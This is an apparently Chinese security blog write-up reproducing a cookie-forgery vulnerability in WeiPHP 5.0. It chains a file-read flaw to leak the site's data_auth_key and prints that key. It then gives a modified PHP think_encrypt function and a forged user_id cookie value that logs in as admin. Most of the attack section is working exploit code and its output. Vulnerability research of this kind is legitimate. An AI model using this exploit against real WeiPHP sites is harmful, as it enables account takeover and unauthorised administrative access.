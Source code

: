 # WeiPHP5.0 任意用户Cookie伪造

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞简介

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的任意用户 `Cookie`伪造漏洞

## 影响范围

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

首先要利用前些天发布的 [WeiPHP5.0 前台任意文件读取](https://mp.weixin.qq.com/s?__biz=Mzg2Mzc2OTM0OQ==&mid=2247483782&idx=1&sn=cf245173b17817006375afb705167985&chksm=ce72c7ecf9054efa2495d2ad1ee2bd7be66bd2b638c84dc10cf971df7048717e239dd4e12c19&token=646394225&lang=zh_CN#rd) 读取 `data_auth_key`

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363316312-37768b1d-d740-4f49-9ad7-5df887591a52.png)

访问 `/index.php/home/file/user_pics`后下载该文件

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363372337-4f582642-dba2-4286-b9fe-ae8d091dde9e.png)

找到 `data_auth_key`的值为

```php
'data_auth_key' => 'kE^&%X.IpoDq2US*n!u>@G8+#Rd{_]a<QfJ3Lg9?'
```

接下来利用 `think_encrypt`伪造 `cookie`，稍微改造一下即可

```php
<?php
highlight_file(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5("kE^&%X.IpoDq2US*n!u>@G8+#Rd{_]a<QfJ3Lg9?");

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo think_encrypt(1);

?>
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363741220-9965dd38-56aa-4788-9448-e6a54d77d372.png)

因此可以构造

```php
user_id=MDAwMDAwMDAwMIC1cp4
```

利用 `hackerbar`即可登录 `admin`

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363859301-b4f78d46-2c90-4fcf-8420-b44af42f34d9.png)

## 总结

这个漏洞利用的前提是获得 `data_auth_key`，本文中是结合了前台任意文件读取漏洞获取，总体来说，如果该前台任意文件读取漏洞被补掉之后，这个洞就几乎无用武之地了。

## 参考链接

- `http://wiki.peiqi.tech/wiki/cms/WeiPHP/WeiPHP5.0%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7Cookie%E4%BC%AA%E9%80%A0%20CNVD-2021-09693.html#weiphp5-0-%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7cookie%E4%BC%AA%E9%80%A0-cnvd-2021-09693`



`github` 链接：`https://github.com/N0puple/vulPOC`

想要获取更多资讯，或者获取文中环境可以关注公众号 “安全漏洞复现”，回复 “漏洞环境”

